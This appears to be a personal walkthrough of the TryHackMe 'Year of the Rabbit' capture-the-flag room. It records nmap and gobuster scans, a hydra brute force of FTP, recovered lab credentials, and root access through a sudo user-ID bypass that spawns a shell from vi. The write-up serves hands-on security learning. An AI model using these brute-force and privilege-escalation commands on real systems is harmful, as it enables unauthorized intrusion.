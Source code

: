 ```yaml
---

title: Walkthrough - Year of the Rabbit
published: true
---
```


Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- running nmap we get a few open ports

```shell
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
```

- a gobuster scan gives us /assets/ and checking the stylesheet there we get a hint

```css
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

- accessing this page takes us to a page where it tells us to disable javascript. We can do this in Firefox by visiting ``about:config`` - this takes us to ``/sup3r_s3cret_fl4g/`` and another flag inside of the video? Nope- Rickrolled

- now running the request to ``/sup3r_s3cr3t_fl4g.php`` and capturing with burp proxy we see a hudden dir. ``/WExYY2Cv-qU``

![0xskar](/assets/rabbit01.png)

![0xskar](/assets/rabbit0.png)

- download the hot babe she's hiding something.
- running ``strings`` on her we get the information needed to access the ftp server
- ``Eh, you've earned this. Username for FTP is ftpuser`` followed by a list of passwords?
- ``hydra -l ftpuser -P ftp_passes.lst 10.10.220.193 ftp`` to get our credentials for the ftp
- login to the ftp server and mget eli's creds.
- eli's creds are a brainfuck cipher. dcode.fr to get access

* * * 

## User Flag

- eli:DSpDiM1wAEwid
- ``find / -type d -iname "s3cr3t" 2>/dev/null``

```shell
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd /home
gwendoline@year-of-the-rabbit:/home$ ls
eli  gwendoline
gwendoline@year-of-the-rabbit:/home$ cd gwendoline/
gwendoline@year-of-the-rabbit:~$ ls -las
total 24
4 drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
4 drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
0 lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
4 -rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
4 -rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
4 -rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
4 -r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
```

* * * 

## Root Flag

```shell
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

- ``[+] 10.10.220.193 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.``

- alternatively
- ``sudo --version``

- ``sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt``

- and then in vi ``:!/bin/bash``

* * * 
